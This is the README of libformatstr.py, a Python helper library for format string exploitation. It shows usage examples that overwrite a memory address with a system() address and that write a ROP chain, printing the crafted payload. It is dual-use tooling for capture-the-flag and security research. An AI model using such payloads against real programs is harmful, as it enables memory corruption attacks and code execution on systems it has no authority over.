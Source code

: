 libformatstr.py
====================

Small script to simplify format string exploitation.

Usage
---------------------

* Case 1 - replace one dword:

<pre>
import sys
from libformatstr import FormatStr

addr = 0x08049580
system_addr = 0x080489a3

p = FormatStr()
p[addr] = system_addr

# buf is 14th argument, 4 bytes are already printed
sys.stdout.write( p.payload(14, 4) )
</pre>

* Case 2 - put ROP code somewhere:

<pre>
import sys
from libformatstr import FormatStr

addr = 0x08049580
rop = [0x080487af, 0x0804873c, 0x080488de]
p = FormatStr()
p[addr] = rop

sys.stdout.write( p.payload(14) )
</pre>

About
---------------------

Author: hellman ( hellman1908@gmail.com )

License: GNU General Public License v2 (http://opensource.org/licenses/gpl-2.0.php)
